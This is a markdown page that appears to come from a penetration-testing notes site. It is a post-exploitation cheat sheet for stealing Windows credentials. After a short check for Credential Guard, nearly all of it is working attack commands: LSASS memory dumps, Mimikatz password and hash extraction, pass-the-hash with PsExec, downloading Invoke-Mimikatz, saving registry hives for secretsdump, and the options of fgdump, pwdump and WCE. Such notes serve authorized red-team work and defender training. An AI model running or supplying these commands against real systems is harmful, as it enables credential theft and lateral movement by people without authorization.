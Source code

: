 ```yaml
---
layout: default
title: Windows
parent: Post-Admin/Root
---
```


# Windows
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Manual Checks
### Is Credential Guard Enabled?
Windows Defender Credential Guard prohibits dumping of LSASS
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```
- Check `SecurityServicesConfigured` and `SecurityServicesRunning` are set to `1` or `2`
    - `1` = CredentialGuard
    - `2` = Hypervisor enforced Code Integrity

## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

---

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg save hklm\sam <output path>
reg save hklm\security <output path>
reg save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```

## FGDump/PWDump
Dump hashes from `lsass` on the target machine
```shell
fgdump.exe
python pydump.py
pwdump7.exe
```

## Windows Credential Editor (WCE)
```shell
wce{32|64}.exe -l             # List current sessions & NTLM creds (default)
wce{32|64}.exe -r             # List current sessions & NTLM creds indefinitely
wce{32|64}.exe -e             # List current sessions & NTLM creds every time a logon event occurs
wce{32|64}.exe -s <NTLM>      # Change NTLM creds of current session
wce{32|64}.exe -c <NTLM>      # Run in new session with specified NTLM creds
wce{32|64}.exe -i <LUID>      # Specify LUID to use for current session
wce{32|64}.exe -d             # Delete NTLM creds from current session
wce{32|64}.exe -a <addresses> # Use addresses to read sessions and NTLM creds from memory (from GETLSASRVADDR.EXE)
wce{32|64}.exe -f             # Force 'safe mode'
wce{32|64}.exe -g             # Generate LM & NT hash
wce{32|64}.exe -K             # Dump Kerberos tickets to file
wce{32|64}.exe -k             # Read Kerberos tickets from file and insert into Windows cache
wce{32|64}.exe -w             # Dumps plaintext passwords
```
- `-o <file>` outputs to file
- <https://github.com/returnvar/wce>